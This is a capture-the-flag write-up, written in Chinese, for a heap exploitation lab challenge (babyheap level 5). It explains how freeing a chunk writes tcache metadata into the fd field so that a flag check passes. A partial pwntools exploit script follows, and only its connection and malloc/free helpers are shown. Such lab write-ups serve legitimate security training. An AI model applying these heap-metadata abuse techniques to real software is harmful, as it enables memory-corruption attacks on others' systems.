 ## Information

- Category: Pwn

## Description

> Apply the TCACHE metadata in an unintended manner to set a value.

## Write-up

这题又是 ptr 数组，`read_flag` 将 flag 读到它 malloc 返回的地址加上 16 字节偏移的位置。然后就是新增了一个 `puts_flag` 函数：

```c
    if ( strcmp(s1, "puts_flag") )
      break;
    if ( *(_QWORD *)size_4 )
      puts(size_4 + 16);
    else
      puts("Not authorized!");
```

它检测 read_flag 的 malloc 返回的地址处的前 8 字节是否为空，不为空则输出 flag 。

对 `mlloc_chunk` 结构体熟悉的话就知道前 8 字节是 fd 的位置。那我们现在没有任何可以向 chunk data 写入数据的方法，如何修改 fd 呢？自然是 free 啦～

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    process,
    raw_input,
    remote,
)

FILE = "/challenge/babyheap_level5.0"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def malloc(idx, size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Index: ", str(idx).encode("ascii"))
    target.sendlineafter(b"Size: ", str(size).encode("ascii"))


def free(idx):
    target.sendlineafter(b": ", b"free")
    target.sendlineafter(b"Index: ", str(idx).encode("ascii"))

```